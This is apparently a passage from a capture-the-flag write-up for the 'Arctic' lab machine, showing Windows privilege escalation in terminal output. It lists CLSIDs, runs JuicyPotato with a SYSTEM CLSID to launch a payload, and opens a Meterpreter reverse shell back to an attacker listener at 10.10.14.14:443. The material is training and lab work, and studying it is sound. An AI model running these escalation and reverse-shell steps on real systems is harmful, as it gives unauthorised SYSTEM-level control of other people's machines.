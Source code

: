 Get system shell:

```powershell
C:\users\tolis\downloads>type result.log
type result.log
{0289a7c5-91bf-4547-81ae-fec91a89dec5};ARCTIC\tolis
{095B9B12-8BDE-49D2-984B-BF01B4F8CDAF};NT AUTHORITY\SYSTEM
{1BE1F766-5536-11D1-B726-00C04FB926AF};NT AUTHORITY\LOCAL SERVICE
{3c6859ce-230b-48a4-be6c-932c0c202048};NT AUTHORITY\SYSTEM
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
{5BF9AA75-D7FF-4aee-AA2C-96810586456D};NT AUTHORITY\LOCAL SERVICE
{659cdea7-489e-11d9-a9cd-000d56965251};NT AUTHORITY\SYSTEM
{69AD4AEE-51BE-439b-A92C-86AE490E8B30};NT AUTHORITY\SYSTEM
{6d18ad12-bde3-4393-b311-099c346e6df9};NT AUTHORITY\SYSTEM
{6d8ff8e0-730d-11d4-bf42-00b0d0118b56};ARCTIC\tolis
{6d8ff8e8-730d-11d4-bf42-00b0d0118b56};ARCTIC\tolis
{752073A1-23F2-4396-85F0-8FDB879ED0ED};NT AUTHORITY\SYSTEM
{8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM
{8F5DF053-3013-4dd8-B5F4-88214E81C0CF};NT AUTHORITY\SYSTEM
{9678f47f-2435-475c-b24a-4606f8161c16};ARCTIC\tolis
{98068995-54d2-4136-9bc9-6dbcb0a4683f};ARCTIC\tolis
{9acf41ed-d457-4cc1-941b-ab02c26e4686};ARCTIC\tolis
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM 
{A47979D2-C419-11D9-A5B4-001185AD2B89};NT AUTHORITY\LOCAL SERVICE
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\SYSTEM 
{d20a3293-3341-4ae8-9aaf-8e397cb63c34};NT AUTHORITY\SYSTEM 
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM 
{F087771F-D74F-4C1A-BB8A-E16ACA9124EA};NT AUTHORITY\SYSTEM
C:\users\tolis\downloads>exit
meterpreter > bg
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.14:443 
msf6 exploit(multi/handler) > sessions -i 2 
[*] Starting interaction with 2...

meterpreter > shell
Process 3712 created.
Channel 14 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\users\tolis\downloads>juicypotato.exe -t * -l 9001 -p rs.exe -c {F087771F-D74F-4C1A-BB8A-E16ACA9124EA}
juicypotato.exe -t * -l 9001 -p rs.exe -c {F087771F-D74F-4C1A-BB8A-E16ACA9124EA}
Testing {F087771F-D74F-4C1A-BB8A-E16ACA9124EA} 9001
....
[+] authresult 0
{F087771F-D74F-4C1A-BB8A-E16ACA9124EA};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

[*] Sending stage (175174 bytes) to 10.10.10.11

C:\users\tolis\downloads>[*] Meterpreter session 3 opened (10.10.14.14:443 -> 10.10.10.11:50256) at 2021-04-21 18:35:50 -0400
C:\users\tolis\downloads>exit
exit
meterpreter > bg
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > sessions -i

```